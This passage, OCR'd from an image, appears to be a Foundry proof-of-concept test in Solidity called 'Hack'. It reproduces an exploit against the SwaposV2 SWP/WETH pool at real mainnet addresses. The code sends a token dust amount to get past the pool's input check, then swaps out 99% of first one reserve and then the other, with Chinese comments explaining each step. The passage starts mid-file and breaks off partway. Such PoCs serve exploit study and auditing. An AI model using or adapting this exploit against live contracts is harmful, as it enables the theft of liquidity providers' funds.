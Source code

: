 ```solidity
    function balanceOf(address) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

IWETH constant WETH = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
IERC20 constant SWP_Token = IERC20(0x09176F68003c06F190ECdF40890E3324a9589557);
// SWP <=> WETH
ISWP constant SWPV2_Pool = ISWP(0x8ce2F9286F50FbE2464BFd881FAb8eFFc8Dc584f);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 17057400);
        deal(address(WETH), address(this), 100);
        vm.label(address(WETH), "WETH");
        vm.label(address(SWPV2_Pool), "SWPV2Pool");
        vm.label(address(SWP_Token), "SWPTOKEN");
    }

    function testPoc() public {
        // 绕过 "SwaposV2: INSUFFICIENT_INPUT_AMOUNT"
        WETH.transfer(address(SWPV2_Pool), 10);

        (uint112 token0, uint112 token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[before] token0(SWP_Token) form getReserves in pool",
            token0,
            18
        );
        emit log_named_decimal_uint(
            "[before] token1(WETH) getReserves in pool",
            token1,
            18
        );

        //划走99% 的 token0 或 token1都可以，二选一
        SWPV2_Pool.swap((token0 * 99000) / 100000, 0, address(this), "");

        (token0, token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[after] token0(SWP_Token) form getReserves in pool",
            token0,
            18
        );
        emit log_named_decimal_uint(
            "[after] token1(WETH) getReserves in pool",
            token1,
            18
        );

        //故技重施，划走另外一个币
        SWP_Token.transfer(address(SWPV2_Pool), 10);
        SWPV2_Pool.swap(0, (token1 * 99000) / 100000, address(this), "");

        (token0, token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[after] token0(SWP_Token) form getReserves in pool",
```